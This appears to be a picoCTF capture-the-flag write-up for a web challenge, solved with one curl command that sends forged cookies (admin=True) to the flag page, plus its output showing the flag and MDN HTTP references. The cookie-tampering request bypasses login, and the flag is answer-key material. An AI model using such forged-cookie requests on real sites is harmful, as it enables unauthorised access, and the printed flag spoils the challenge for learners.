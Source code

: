 ## Objetivo
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/44573/` ([link](https://jupiter.challenges.picoctf.org/problem/44573/)) or http://jupiter.challenges.picoctf.org:44573
## Solución
```bash
victormcm-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/44573/flag -H  'Cookie: password=hola; username=Juan; admin=True' | grep picoCTF
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--   0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:-- 100  1312  100  1312    0     0   4774      0 --:--:-- --:--:-- --:--:--  4770
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}</code></p>
victormcm-picoctf@webshell:~$ 

```
## Notas Adicionales

## Referencias
[https://developer.mozilla.org/en-US/docs/Web/HTTP](https://developer.mozilla.org/en-US/docs/Web/HTTP)

[https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers)

[https://developer.mozilla.org/en-US/docs/Glossary/Request_header](https://developer.mozilla.org/en-US/docs/Glossary/Request_header)

[https://developer.mozilla.org/en-US/docs/Glossary/Response_header](https://developer.mozilla.org/en-US/docs/Glossary/Response_header)
[https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods)

[https://developer.mozilla.org/en-US/docs/Web/HTTP/Status](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status)